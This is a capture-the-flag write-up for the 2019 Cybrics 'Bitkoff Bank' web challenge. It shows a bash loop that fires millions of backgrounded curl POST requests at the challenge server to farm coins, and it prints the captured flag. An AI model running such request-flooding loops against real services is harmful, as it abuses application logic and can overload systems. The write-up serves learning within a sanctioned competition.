 ```yaml
---
title: "Bitkoff Bank - Cybrics Quals 2019"
date: 2019-07-21T21:50:37+02:00
tags:
    - "CTF"
    - "CybricsQuals2019"
---
```


![Description](/images/cybrics-2019/bitkoff-bank/task.png)

This challenge is a web based challenge, here is the registration/login page:
![Web](/images/cybrics-2019/bitkoff-bank/web.png)

After the registration we are provided with a simple web interface for mining
coins:
![UI](/images/cybrics-2019/bitkoff-bank/ui.png)

We immediately see that we need 1 USD to buy the flag, we can mine 0.0000000001
BTCs with a click and we can convert BTC into USD and viceversa.

The thing that immediately came to my mind is to use `curl` to automate the
BTC mining, so this is the command I used:
```bash
for i in {0..10000000}; do
curl -i -s -k  -X $'POST' -H $'Cookie: name=samir; password=ciao' \
    -b $'name=samir; password=samir' \
    --data-binary $'mine=1' $'http://95.179.148.72:8083/index.php' 2>&1 &
done
```

I've done the request appending `&` to the command so that it forks in the
backround, making the mining process much faster. I know it could have been done
better, probably with python and async requests, but there were 12+ hours.

After less than one hour the amount of BTCs allowed us to buy the flag.

### Flag
```
flag: cybrics{50_57R4n93_pR3c1510n}
```

Note: buying the auto-miner was not a good idea because you could have bought as
many as you want but they were doing only one click a second. And even then, the
page would refresh every second, making the page containing the flag disappear.
Luckily, I had burp intercepting the traffic.
